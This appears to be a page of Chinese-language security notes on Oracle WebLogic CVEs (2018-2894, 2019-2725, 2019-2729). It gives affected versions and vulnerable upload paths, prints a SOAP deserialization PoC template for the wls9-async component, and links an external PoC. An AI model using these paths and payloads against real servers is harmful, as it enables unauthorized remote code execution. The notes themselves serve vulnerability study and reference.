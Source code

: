 
## CVE-2018-2894 {#cve-2018-2894}


### 影响范围 {#影响范围}

Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.2
Oracle WebLogic Server 12.2.1.3


### 漏洞原理 {#漏洞原理}

文件上传漏洞，受影响路径：

-   tc/begin.do
-   tc/config.do


## CVE-2019-2725 {#cve-2019-2725}

漏洞位于 wls9-async 组件，在反序列化 [SOAP]({{< relref "soap.md" >}}) 的请求内容时触发反序列化漏洞

通过以下路径查看组件是否启动：

```text
01/_async/AsyncResponseService
```

通用无回显 poc：

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:wsa="http://www.w3.org/2005/08/addressing" xmlns:asy="http://www.bea.com/async/AsyncResponseService">
<soapenv:Header>
<wsa:Action>xx</wsa:Action><wsa:RelatesTo>xx</wsa:RelatesTo><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<void class="POC">
<array class="xx" length="0">
</array>
<void method="start"/>
</void>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body>
<asy:onAsyncDelivery/>
</soapenv:Body>
</soapenv:Envelope>
```

特定版本的回显 poc：<https://github.com/lufeirider/CVE-2019-2725>


## CVE-2019-2729 {#cve-2019-2729}

对 CVE-2019-2725 的绕过，要求版本低于 jdk1.7
